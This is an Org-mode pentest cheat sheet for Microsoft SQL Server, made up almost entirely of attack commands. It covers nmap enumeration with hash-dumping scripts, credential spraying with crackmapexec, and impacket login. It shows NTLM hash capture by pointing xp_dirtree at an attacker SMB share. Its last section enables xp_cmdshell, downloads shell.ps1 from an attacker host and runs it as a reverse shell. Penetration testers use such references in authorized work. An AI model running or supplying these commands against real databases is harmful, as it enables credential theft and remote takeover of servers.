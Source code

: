 :PROPERTIES:
:ID:       f4197277-0e6c-483c-9a5b-b15d54c881ce
:END:
#+title: Pentest - MSSQL - Microsoft SQL Server p 1433
#+filetags: :sql:pentest:
#+hugo_base_dir:../


* Pentest Microsoft SQL Server
** Enumeration
#+begin_src shell -n :exports both :results output verbatim :tangle file
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
#+end_src
** Test credentials
#+begin_src shell -n
crackmapexec mssql <host> -u users.txt -p passwords.txt
#+end_src
** Establish connection
#+begin_src shell
impacket-mssqlclient -dc-ip <ip> -windows-auth domain/username:password@host
#+end_src
*** List DBs
#+begin_src sql -n
SELECT name FROM master..sysdatabases;
#+end_src
*** Check permissions
#+begin_src sql -n
Use master;
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
#+end_src
*** ~xp_dirtree~
#+begin_src sql -n
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
#+end_src

Use ~xp_dirtree~ to obtain NTLM hashes
#+begin_src shell -n
#victim
xp_dirtree \\<attacker_ip>\file.txt
#attacker
sudo impacket-smbserver -smb2support share $(pwd)
#+end_src
** ~xp_cmdshell~
Enable - run command - rev shell
#+begin_src shell -n
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell powershell -c iwr http://<ip>/shell.ps1 -o C:\programdata\rev.ps1
xp_cmdshell powershell -c C:\programdata\rev.ps1
#+end_src










[[https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server][hacktricks]]
